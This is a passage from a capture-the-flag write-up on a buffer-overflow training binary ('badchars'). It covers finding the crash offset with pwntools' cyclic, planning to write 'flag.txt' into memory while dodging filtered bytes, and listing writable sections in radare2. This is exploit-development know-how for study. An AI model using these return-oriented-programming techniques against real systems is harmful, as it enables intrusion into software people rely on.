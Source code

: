Looking up the result with `pwn cyclic`, we can lookup the first 4 bytes within RSP while specifying the alphabet we used to get the crash offset:

```
$ cyclic -a bcdefhijklmnopqrstuvwyz -l mbbb
40
```

## Treasure Hunting

After taking a quick look at this challenge, we will notice that it is similar to the previous challenge (write4), with the exception of bad character filtering.
Therefore, our goal becomes the following:

1. Write "flag.txt" to a memory address because the string `/bin/cat flag.txt` does not exist in the binary.
2. Invoke `print_file(flag_txt_memory_address)`.

Of course, we need to avoid using any bad characters when writing `flag.txt`.

Again, this challenge will only be exploitable if we can satisfy a few conditions.

First, we need a writable memory segment in `badchars`:

```
[0x00400628]> iS
[Sections]

nth paddr        size vaddr       vsize perm name
―――――――――――――――――――――――――――――――――――――――――――――――――
0   0x00000000    0x0 0x00000000    0x0 ----
1   0x00000238   0x1c 0x00400238   0x1c -r-- .interp
2   0x00000254   0x20 0x00400254   0x20 -r-- .note.ABI_tag
3   0x00000274   0x24 0x00400274   0x24 -r-- .note.gnu.build_id
4   0x00000298   0x38 0x00400298   0x38 -r-- .gnu.hash
5   0x000002d0   0xf0 0x004002d0   0xf0 -r-- .dynsym
6   0x000003c0   0x7e 0x004003c0   0x7e -r-- .dynstr
7   0x0000043e   0x14 0x0040043e   0x14 -r-- .gnu.version
8   0x00000458   0x20 0x00400458   0x20 -r-- .gnu.version_r
9   0x00000478   0x30 0x00400478   0x30 -r-- .rela.dyn
10  0x000004a8   0x30 0x004004a8   0x30 -r-- .rela.plt
11  0x000004d8   0x17 0x004004d8   0x17 -r-x .init
12  0x000004f0   0x30 0x004004f0   0x30 -r-x .plt
13  0x00000520  0x192 0x00400520  0x192 -r-x .text
14  0x000006b4    0x9 0x004006b4    0x9 -r-x .fini
15  0x000006c0   0x10 0x004006c0   0x10 -r-- .rodata
16  0x000006d0   0x44 0x004006d0   0x44 -r-- .eh_frame_hdr
17  0x00000718  0x120 0x00400718  0x120 -r-- .eh_frame
18  0x00000df0    0x8 0x00600df0    0x8 -rw- .init_array
19  0x00000df8    0x8 0x00600df8    0x8 -rw- .fini_array
20  0x00000e00  0x1f0 0x00600e00  0x1f0 -rw- .dynamic
21  0x00000ff0   0x10 0x00600ff0   0x10 -rw- .got
22  0x00001000   0x28 0x00601000   0x28 -rw- .got.plt
23  0x00001028   0x10 0x00601028   0x10 -rw- .data
24  0x00001038    0x0 0x00601038    0x8 -rw- .bss
25  0x00001038   0x29 0x00000000   0x29 ---- .comment
26  0x00001068  0x618 0x00000000  0x618 ---- .symtab
27  0x00001680  0x1f8 0x00000000  0x1f8 ---- .strtab
28  0x00001878  0x103 0x00000000  0x103 ---- .shstrtab
```
